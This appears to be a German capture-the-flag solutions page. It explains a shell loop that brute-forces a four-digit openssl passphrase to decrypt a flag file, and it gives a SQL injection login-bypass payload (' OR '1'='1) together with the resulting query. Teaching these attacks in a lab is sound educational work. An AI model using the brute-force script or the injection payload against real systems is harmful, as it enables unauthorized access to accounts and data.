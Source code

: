 ```yaml
---
sidebar_position: 3
Title: Lösungen
---
```


# Lösungen

## Bruteforce

### Erklärung

Das untenstehende Script geht alle möglichen Zahlenkombinationen (0 - 9999) durch, bis das Passwort erraten worden ist. Wenn die Zahlenkombination korrekt ist, wird die Zahlenkombination ausgegeben. Wenn die Zahlenkombination nicht korrekt ist, wird der Vorgang wiederholt.

Es wird openssl mit der Methode aes-256-cbc verwendet. Bei jeder Iteration wird eine höhere Zahl alls passphrase eingegeben. Sobald das entschlüsselte Resultat im Format der gewünschten Flagge ist, wird die Schleife gestoppt und die entschlüsselte Datei mit der Flagge in `out.txt` gespeichert.

:::note

Die Zahlenkombination ändert sich jedes Mal, wenn dieser Container gestartet wird. Nur weil ein Mal eine Kombination funktioniert hat, wird sie ein anderes Mal nicht dieselbe sein.

:::

### Script

```bash title="solution.sh"
for n in $(seq 10000); do
    i=$(($n - 1))
    DECRYPTED=$(cat flag.txt.enc | openssl aes-256-cbc -d -a -pass pass:$i)
    if [ $DECRYPTED == "flag{bruteforce_challenge}" ]; then
        echo "The pin is: $i"
        echo $DECRYPTED >out.txt
        break
    else
        echo "Wrong password: $i"
    fi
done
```

:::caution

Bitte beachten, dass dieses Script nicht in BASH, sondern in ASH geschrieben ist. Das ist die Shell für die Alpine distribution.

:::


## SQL injection

### Erklärung

Bei einem Eingabefeld, welches anfällig für SQL-Injection ist, wird normalerweise der Inhalt vom Feld in einer Variable gespeichert. Diese Variable wird dann direkt in den String, welcher die Query enthaltet verkettet (concatenate). Deshalb kann man mit ein wenig Geschick eine Eingabe machen, welche Teile eines SQL Befehls beinhaltet.

Das eingegebene wird so mit in die Query genommen und von der Datenbank ausgeführt. So kann man Abfrageresultate oder sogar den Datenbestand manipulieren.

```sql
SELECT username, password FROM users
WHERE username = '[Eingabe Nutzername]'
HAVING password = '[Eingabe Passwort]';
```

### Eingaben

Username:

```
admin
```

Password:

```
' OR '1'='1
```

Lösungsquery, welche im Hintergrund dann ausgeführt wird:

```sql
SELECT username, password FROM users
WHERE username = 'admin'
HAVING password = '' OR '1'='1';
```
